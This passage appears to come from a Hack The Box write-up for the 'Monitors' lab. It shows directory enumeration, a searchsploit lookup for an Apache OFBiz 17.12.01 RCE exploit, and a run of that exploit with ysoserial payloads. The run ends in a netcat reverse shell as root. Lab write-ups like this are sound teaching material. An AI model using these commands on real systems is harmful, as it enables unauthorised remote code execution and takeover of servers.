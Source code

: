 ```sh
/images               (Status: 302) [Size: 0] [--> /images/]
/content              (Status: 302) [Size: 0] [--> /content/]
/common               (Status: 302) [Size: 0] [--> /common/]
[...snip...]
```

Visiting `/images` keeps returning an error, however when I visited `/content` I was redirected to the following login page for `Apache OFBiz v17.12.01`:

![monitors5](/images/monitors5.png)

### Apache OFBiz v17.12.01

Oh look, another exploit waiting for us:

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ searchsploit ofbiz 17.12.01
-------------------------------------------------------- -----------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- -----------------------
ApacheOfBiz 17.12.01 - Remote Command Execution (RCE)   | java/webapps/50178.sh
-------------------------------------------------------- ------------------------
Shellcodes: No Results
```

Make sure to follow the exploit instructions in the comments, and you might need to revert back to Java 11 to get `ysoserial` to work.

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ bash 50178.sh -i 10.10.14.199 -p 5555

[*] Creating a shell file with bash

[*] Downloading YsoSerial JAR File

[*] Generating a JAR payload

[*] Sending malicious shell to server...

[*] Generating a second JAR payload

[*] Executing the payload in the server...


[*]Deleting Files...
```

```sh
┌──(pl4stic㉿kali)-[~/htb/monitors]
└─$ nc -nvlp 5555  
listening on [any] 5555 ...
connect to [10.10.14.199] from (UNKNOWN) [10.129.232.111] 49820
bash: cannot set terminal process group (32): Inappropriate ioctl for device
bash: no job control in this shell
root@55f9268f69df:/usr/src/apache-ofbiz-17.12.01# whoami
whoami
root
```
